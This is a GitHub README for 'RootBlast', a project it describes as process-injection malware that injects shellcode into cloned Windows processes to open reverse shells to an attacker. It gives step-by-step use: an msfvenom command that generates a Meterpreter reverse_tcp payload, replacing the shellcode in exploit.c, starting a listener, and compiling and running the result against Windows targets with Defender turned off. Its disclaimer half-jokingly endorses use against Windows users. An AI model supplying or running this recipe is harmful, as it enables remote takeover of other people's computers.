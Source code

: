 # RootBlast 🪴 💥
![image](https://github.com/Spirizeon/rootblast/assets/123345456/d7600095-f6b4-49b2-bb8f-28c2ce3c07ba)

Process injection malware that clones windows processes, injects them with shellcode and executes them to attempt numerous reverse shells on the attacker. (Made with 🤎 for Windows users)

> This is only for educational and research purposes (except if your target are windows users) 
## Usage
+ Clone the repo
```
git clone https://github.com/spirizeon/rootblast
```
+ Generate shellcode through msfvenom 
```
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<IP adress> LPORT=443 -f c --var-name=shellcode
```
+ Replace shellcode with that in `exploit.c`

+ Start the listener on the Attacker machine (Run msfconsole as sudo)

![image](https://github.com/Spirizeon/maldev-training/assets/123345456/a78fc663-07fa-48c1-a65e-e68db3c4d29c)

+ Compile the code (MSVC compiler recommended) and execute

![image](https://github.com/Spirizeon/maldev-training/assets/123345456/9a44d8ad-cf9e-435e-af46-a74f270057a9)

## Tech Stack

**Attacker** Kali Linux/ParrotOS VMs, metasploit-framework

**Target:** Windows 7/10/11 (with Windows defender turned off), Visual C++, C

